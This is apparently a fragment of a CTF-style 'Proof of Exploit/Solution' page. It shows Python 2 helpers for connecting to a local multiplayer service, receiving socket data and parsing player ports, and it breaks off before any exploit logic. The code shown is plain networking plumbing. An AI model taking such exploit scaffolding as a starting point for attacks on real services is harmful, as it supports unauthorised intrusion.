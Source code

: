 ----

# Proof of Exploit/Solution

```python
from socket import *
import select
import time

DEVICES_PER_PLAYER = 5
HOST = "127.0.0.1"
PORT = 0xb175
NUM_PLAYERS = 8
DEFAULT_LEN = 1000

def peek(s):
    readable, writable, error = select.select([s,], [], [], 0.1)
    if readable:
        return True
    else:
        return False

def recv_until(s, max_len=DEFAULT_LEN, terminator=None):
    data = ""
    start = time.time()
    TIMEOUT = 5
    while True:
        if time.time() - start > TIMEOUT:
            print "[!] Timeout reached in select loop"
            return data
        readable, writable, error = select.select([s,], [], [], 0.5)
        if readable:
            c = s.recv(1)
            data += c
            if (terminator and data.endswith(terminator)) or len(data) > max_len:
                break
        else:
            break
    return data

def recv_line(s, max_len=DEFAULT_LEN):
    return recv_until(s, max_len, "\n")

def recv_and_print(s, bufsize=DEFAULT_LEN, terminator=None):
    data = recv_until(s, max_len=bufsize, terminator=terminator)
    print "Received %d bytes: ```%s```" % (len(data), data)
    return data

def parse_lines(d):
    lines = d.split("\n")
    players = [0] * NUM_PLAYERS
    for line in lines:
        if line.startswith("Player "):
            words = line.split(" ")
            port = int(words[-1])
            player = int(words[1].replace(",", ""))
            players[player] = port
    for i in range(len(players)):
        print "Player %d : port %d" % (i, players[i])
    return players

def connect_all(ports):
    player_sockets = [0] * NUM_PLAYERS
```